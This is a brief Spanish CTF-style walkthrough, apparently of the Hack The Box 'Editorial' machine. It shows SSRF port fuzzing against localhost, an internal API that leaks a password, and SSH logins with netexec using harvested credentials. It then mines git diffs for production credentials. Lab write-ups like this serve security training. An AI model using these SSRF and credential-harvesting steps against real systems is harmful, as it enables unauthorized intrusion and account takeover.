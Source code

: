 ```yaml
---
layout: default
title: Editorial
---
```


# SSRF

Probamos :
```
127.0.0.1:80
```

```
http://127.0.0.1:(1-65535)
```

Fuzzeamos del 1-65535 los puertos hasta encontrar uno que retorne un resultado distinto.

Se trata de un API y en uno de sus endpoints retorna una contraseña:

Hacer una petición a 

```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

Devuelve el siguiente recurso

```bash
curl -s 'http://editorial.htb/static/uploads/63ef32c6-91b8-4ac1-9216-000fd0a3f1a1' | jq .
```

Que tiene una contraseña:

```bash
netexec ssh editorial.htb -u dev -p 'dev080217_devAPI!@'
```

___

```bash
cd /app
```

```bash
git status
```

```bash
git log --oneline 
```

```bash
git diff hashcommit1 hashcommit2
```

```bash
netexec ssh editorial.htb -u prod -p '080217_Producti0n_2023!@'
```